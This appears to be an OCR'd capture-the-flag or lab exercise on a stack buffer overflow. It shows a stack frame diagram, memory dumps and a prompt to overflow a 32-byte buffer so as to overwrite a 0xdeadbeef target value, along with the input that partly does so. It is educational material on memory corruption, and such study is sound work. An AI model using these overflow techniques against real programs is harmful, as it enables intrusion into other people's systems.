 ```
nc xxxx yy

Stack frame layout

|      .      | <- Higher addresses
|      .      |
|_____________|
|             | <- 64 bytes
| Return addr |
|_____________|
|             | <- 56 bytes
|     RBP     |
|_____________|
|             | <- 48 bytes
|   target    |
|_____________|
|             | <- 40 bytes
|  alignment  |
|_____________|
|             | <- 32 bytes
|  Buffer[31] |
|_____________|
|      .      |
|      .      |
|_____________|
|             |
|  Buffer[0]  |
|_____________| <- Lower addresses


      [Addr]       |      [Value]
-------------------+-------------------
0x00007ffe41ed0a50 | 0x0000000000000000 <- Start of buffer
0x00007ffe41ed0a58 | 0x0000000000000000
0x00007ffe41ed0a60 | 0x0000000000000000
0x00007ffe41ed0a68 | 0x0000000000000000
0x00007ffe41ed0a70 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffe41ed0a78 | 0x00000000deadbeef <- Target to change
0x00007ffe41ed0a80 | 0x0000559c16f7c800 <- Saved rbp
0x00007ffe41ed0a88 | 0x00007f861b330c87 <- Saved return address
0x00007ffe41ed0a90 | 0x0000000000000001
0x00007ffe41ed0a98 | 0x00007ffe41ed0b68

// [...]

◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉                                                                                                 ◉
◉  Fill the 32-byte buffer, overwrite the alginment address and the "target's" 0xdeadbeef value.  ◉
◉                                                                                                 ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉

>> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa


      [Addr]       |      [Value]
-------------------+-------------------
0x00007ffe41ed0a50 | 0x6161616161616161 <- Start of buffer
0x00007ffe41ed0a58 | 0x6161616161616161
0x00007ffe41ed0a60 | 0x6161616161616161
0x00007ffe41ed0a68 | 0x6161616161616161
0x00007ffe41ed0a70 | 0x6161616161616161 <- Dummy value for alignment
0x00007ffe41ed0a78 | 0x0000000061616161 <- Target to change
0x00007ffe41ed0a80 | 0x0000559c16f7c800 <- Saved rbp
```